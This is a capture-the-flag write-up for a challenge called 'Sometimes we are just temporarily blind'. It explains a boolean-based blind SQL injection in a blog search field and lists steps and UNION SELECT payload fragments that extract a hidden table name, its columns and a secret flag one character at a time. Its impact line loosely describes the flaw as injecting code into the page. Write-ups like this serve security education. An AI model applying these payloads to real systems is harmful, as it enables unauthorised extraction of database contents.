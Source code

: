 # Challenge `Sometimes we are just temporarily blind` writeup

- Vulnerability: SQL injection

- Where: search field [SQL: SELECT id, title, content FROM blog_post WHERE title LIKE '%'%' OR content LIKE '%' UNION SELEC%']

- Impact: attacker is able to inject malicious code in the webpage and get hidden posts

---

## Steps to reproduce

1. First you will have to find the hidden and unknown table name. For that you will re use last's challenge query.
2. You will have to iterate throught all the letters and '_'
  - 2.1. Add this to the query "AND name LIKE '{"current_string_match(table) - starts empty"}{letters and '_'}%'" (% is used here like a Ctrl + F to check all strings that start with the string before %)
  - 2.2. Inject the query 
  - 2.3. Check how many articles are found
  - 2.4. If they are 5, excluding the 4 already known(4 known files + 1 hidden), your string actual match is correct, so add that letter to the match string

  Loop like this:
  
    check 'a%' found 4 articles
    check 'c%' found 5 articles

    next ->

    check 'ca%' found 4 articles
    check 'cb%' found 5 articles

    next ->

    ... until a limit

3. Now, knowing the table name "{table_name} = super_s_sof_secrets" do the same loop to find the columns. For this, add this to the query: 
"name LIKE '{table_name}' AND sql LIKE '{"current_string_match(column) - starts empty"}{letters and '_'}%'"
  - 3.1. You will get the creation info "create_table_super_s_sof_secrets____id_integer_not_null____secret_text____primary_key__id___"
  - 3.2. Conclude that the column you want is "secret" type 'text'
4. Finally, it's time to find the flag. Do the same loop in order to find it. For this, formulate your query to check 'secret' column values:
"' UNION SELECT secret, secret, secret FROM {table_name} WHERE secret LIKE '{"current_string_match(flag) - starts empty"}{letters and '_'}%' --" 
  - 4.1. You will get the flag within this format: "in_case_i_forget_my_password_is__ssof_i_am_just_partially_blind_since_i_can_get_your_data_using_boolean_injection_"


[(POC)](Sometimes_we_are_just_temporarily_blind.py)
